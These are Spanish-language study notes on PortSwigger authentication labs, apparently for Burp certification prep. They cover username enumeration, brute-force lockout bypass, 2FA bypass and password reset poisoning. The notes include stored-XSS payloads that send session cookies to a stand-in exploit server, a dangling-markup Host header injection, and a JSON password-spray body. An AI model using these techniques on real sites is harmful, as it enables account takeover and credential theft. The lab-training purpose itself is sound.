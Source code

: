 Las vulnerabilidades de autenticación suelen ser un poco faciles de entender, sin embargo son fundamentales tener el concepto entre autenticación y seguridad, ya que esto es lo que nos provee el acceso a datos confidenciales de una aplicación.

Ademas las vulnerabilidades de autenticación tiene un factor importante y es que los ataques por autenticación siempre nos permiten obtener una superficie de ataque adicional para futuras vulnerabilidades.

### Cookie Stay-Logged In

![[Pasted image 20250215124453.png]]

```
Cookie del tipo Base64(username:password(mD5))
En usernames List, tengo listo todo encodeado a base64 y las passwords a MD5
```

```
Con Passwords List: (si no existe rate limit)
1. username=victimUser&password=[burp Intruder] //302 OK
2. username=[burp Intruder]&password=password Victim //Grep Match "Invalid username or password" -- O el mensaje de error que salga, para que el no retorne ese grep, es el username correcto, luego llevar el mismo ataque pero con password y esperar el 302 Ok
3. Cluster Bomb: X-Forwarded-For:[Burp intruder] 
	1. username=[burp intruder]&password=peter5peter5peter5peter5++;
	La password tiene mas o menos unas 20 veces repetidas la contra peter5 para  poder alcanzar una longitud de 100 caracteres y que sea diferenciable los tiempos de recibidos para cuando tome el username correcto (peter5 solo es testeo)
	2. Luego de que nos de una respuesta diferencial, solo es cuestión de probar ahora para el parametro password=[burp intruder] y que nos de 302oK
```


### Authentication enumeration `username & password` Via different Responses: `fetch('/analytics?id` 

* El secreto está en grepear las response para ver las diferentes errores que son los que nos dan la pauta para ver si es o no el username y password correct (iniciamos primero con username y luego con passwords)
	* podemos grepear por el error que aparece `Invalid username or password.`
	* Un `.` o una `,` hacen la fucking diferencia. 
	* Y con contraseñas se grepea por `Invalid username or password`

* Ese fetch de analytics solo es pa' confundir y perder el tiempo en un falso positivo. 

* Basicamente hacemos con intruder la enumeracion de username y password sin embargo teniendo muy en cuenta las respuestas que dan, pueden variar `password incorrect` o un `username incorrect` y esas serán la clave para poder definir y darnos cuenta cual es el username y password correcto. 
* Porque claro en este caso el desarrollador que hizó esto no pensó en la seguridad en lo más minimo y pensó que estaba en el primer semestre de la universidad creando condicionales hasta de por si acaso : ) 

![](Pasted%20image%2020250225115956.png)


### Stay-logged-in Offline Crack `XSS Stored` `hash md5`

* Si el hash no se desencripta con alguna tool, busco directamente el hash en internet a ver si aparece. 

> The blog application comment function is vulnerable to [stored XSS](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study?tab=readme-ov-file#stored-xss), use the below payload in blog comment to send the session cookie of Carlos to the exploit server.

```
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>
```

> Base64 decode the `stay-logged-in` cookie value and use an online **MD5** hash crack station database.

[![stay-logged-in Offline](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/raw/main/images/stay-logged-in-offline.png)](https://github.com/botesjuan/Burp-Suite-Certified-Practitioner-Exam-Study/blob/main/images/stay-logged-in-offline.png)

[PortSwigger Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)

### Autentication protección brute force block IP

Y si, lo que tuvimos que hacer fue configurar los .txt de user para crear uno nuevo que tuviese la siguiente estructura:

```arduino
wiener
carlos
wiener
carlos 
.
.
. #así hasta que carlos se repitiera 100 veces. 
```

y hacer un passwords_auth.txt para las contraseñas:

```arduino
peter 
randomPass
peter
randomPass
peter
randomPass
. 
.
. Así sucesivamente para poder alinear las contraseñas del diccionario con el user carlos. (randomPass es de la lista de contraseñas de portswigger)
```

Ahora bien, ¿por qué tenemos que añadir tantas veces a **wiener**? por que esta es una forma de bypassear los intentos de inicio de sesión en una aplicacion, como ya tenemos el username **wiener**, con el podemos reiniciar la cuenta de bloqueos de IP para varios intentos fallidos de inicio de sesión, y si por eso lo hacemos así, para que **Carlos** que es el username victima que conocemos pueda ir probando cada contraseña del diccionario hasta que nos arroje un **302**.

### Autentication bloqueo de cuenta: 

```
* username=[burp intruder]&password=a[burp intruder] de tipo cluster bomb el primer payload para usernames list el segundo payloads de **null payloads** hasta lograr encontrar una length diferente a las demás, ya luego tirar el ataque con: 
* username=victimusername&password=[tubro intruder] y grepear los resultados pa' pillar el que difiere. 
```

###  Autentication multiples credenciales por solicitud JSON

![[Pasted image 20250215123059.png]]

```
{"username":"carlos",
"password":["123456","password","12345678",
"qwerty","123456789","12345","1234",
"111111","1234567","dragon","123123",
"baseball","abc123","football","monkey",
"letmein","shadow","master","666666",
"qwertyuiop","123321","mustang","1234567890",
"michael","654321","superman","1qaz2wsx",
"7777777","121212","000000","qazwsx",
"123qwe","killer","trustno1","jordan",
"jennifer","zxcvbnm","asdfgh","hunter",
"buster","soccer","harley","batman","andrew",
"tigger","sunshine","iloveyou","2000","charlie",
"robert","thomas","hockey","ranger","daniel",
"starwars","klaster","112233","george","computer",
"michelle","jessica","pepper","1111","zxcvbn","555555",
"11111111","131313","freedom","777777","pass","maggie",
"159753","aaaaaa","ginger","princess","joshua","cheese",
"amanda","summer","love","ashley","nicole","chelsea",
"biteme","matthew","access","yankees","987654321",
"dallas","austin","thunder","taylor","matrix",
"mobilemail","mom","monitor","monitoring",
"montana","moon","moscow"]}
```

### Autenticación simple bypass 2FA:

Si primero se le solicita al usuario que ingrese una contraseña y luego se le solicita que ingrese un código de verificación en una página separada, el usuario se encuentra efectivamente en un estado de "iniciar sesión" antes de ingresar el código de verificación. En este caso, vale la pena probar para ver si puede pasar directamente a las páginas "solo para quienes han iniciado sesión" después de completar el primer paso de autenticación. Ocasionalmente, encontrará que un sitio web en realidad no verifica si completó o no el segundo paso antes de cargar la página.

### Autenticacion lógica rota 2FA: 

Si encontramos un mfa-code=[turbo intruder] de tipo payload>brute force, con el min y max de length segun esté establecido el mfa-code y letras a-z-0-9 pero si solo son numeros entonces 0-9. 

### Autentication password cracking online: `stay-logged-in` `XSS Stored comments`

![](Pasted%20image%2020250221105018.png)

```js
<script>
document.location='https://EXPLOIT.net/StealCookie='+document.cookie
</script>

<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```

Nos llega la cookie de session y simplemente la decodeamos como sea necesario, base64>md5>take password. 

### Autentication password reset poisoning

Para este caso con solo tomar el endpoint ==POST forgot-password/ HTTP/1.1==
y el Host: exploit-server.net y cambiamos el username a el victimUser podemos lograr que nos llegue a nuestro server exploit el token de reset password. 

![[Pasted image 20250215125429.png]]

### Autentication Password reset poisoning via Middleware `X-Forwarded-Host:`

Hacemos lo mismo del anterior, y nos llega el token de reset. 

![[Pasted image 20250215125622.png]]

### Autentication brute force cambio de contraseña

Algo util y logico es si se cambia la contraseña y el error de las nuevas contraseñas si son diferentes retornan: "New Passwords Dont Match" esta a sujeta a aparecer pero si la contraseña actual es correcta, por lo tanto si una contraseña está incorrecta tira de primeraso es "Current Password is incorrect", por lo tanto un burp intruder a contraseña actual y grepear por "new passwords dont match" el que lo filtre y saque el resultado, esa es la password, actual. 

### Autentication password reset via Dangling Markup 

En este caso, el ataque es en el endpoint `POST forgot-password/ HTTP/1.1` que lo estructuramos y se puede inyectar en el header Host. 
![[Pasted image 20250215131349.png]]

```
Host: web-security-academy.com:'<a img src="EXPLOIT-SERVER.NET/?
Cambiamos el param de user al userVictim claro, nos llega el correo a nuestro exploit server, tomamos la password nueva y listo. 

```

